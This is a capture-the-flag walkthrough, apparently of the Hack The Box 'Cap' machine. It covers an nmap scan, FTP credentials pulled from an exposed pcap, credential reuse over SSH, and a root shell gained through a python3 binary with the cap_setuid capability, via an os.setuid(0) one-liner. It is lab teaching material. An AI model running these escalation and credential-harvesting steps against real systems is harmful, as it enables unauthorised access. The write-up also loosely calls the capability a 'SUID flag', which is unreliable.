

# Cap

## Recon

We'll start with a `nmap` scan.

```bash
nmap -p- -T4 --min-rate=1000 -sV -sC 10.10.10.245

Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-03 18:13 CEST
Nmap scan report for 10.10.10.245
Host is up (0.049s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 03 Oct 2021 16:19:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
......
```

## User

So, we get a web server, ftp and ssh.  
Lets check out the webpage. It's a network monitoring dashboard, the side panel has three additional pages:  
Security Snapshot \(5 Second PCAP + Analysis\) - http://10.10.10.245/data/5  
IP Config - http://10.10.10.245/ip  
Network Status - http://10.10.10.245/netstat

The Security Snapshot page allows to download a pcap file of the last 5 seconds of network activity.  
For example, if we `ping` the machine 8 times we and request the data page at the start of the ping command we get the following.



It looks like each time the _Security Snapshot_ is requested the results are stored with an numerical index, lets checkout the first snapshot.  
[http://10.10.10.245/data/0](http://10.10.10.245/data/0)  
We get a 72 packets pcap. The protocol hierarchy tells us that its a FTP connection.  
Applying the appropriate filter we'll get the FTP credentials.


The ftp server will show us nathan user home folder. Here we can get the user flag.

```bash
$ ftp 10.10.10.245
.....
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Oct 04 07:18 user.txt
ftp> get user.txt
```

If we try reusing the FTP credentials in SSH we'll find that they are valid.

## Root

We have SSH access to the machine. Lets check out how the web app generates the pcap files, given that network capture usually requires elevated privileges.

```bash
$ cd /var/www/html
$ less app.py
......
def capture():

        get_lock()
        pcapid = get_appid()
        increment_appid()
        release_lock()

        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
......
```

Looks like Python3 has SUID flag, the `getcap`command will allow us to check this.  
We can modify the app.py command string to spawn a root shell.

```bash
$ which python3
/usr/bin/python3
$ ls -la /usr/bin/python3
lrwxrwxrwx 1 root root 9 Mar 13  2020 /usr/bin/python3 -> python3.8
$ getcap /usr/bin/python3.8 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
# whoami
root
```

## Conclusion

This machine is quite straight forward, but we can get a couple of takeaways:  
Be mindful of what is exposed in your website, don't reuse credentials and don't grant unrestricted sudo permissions.

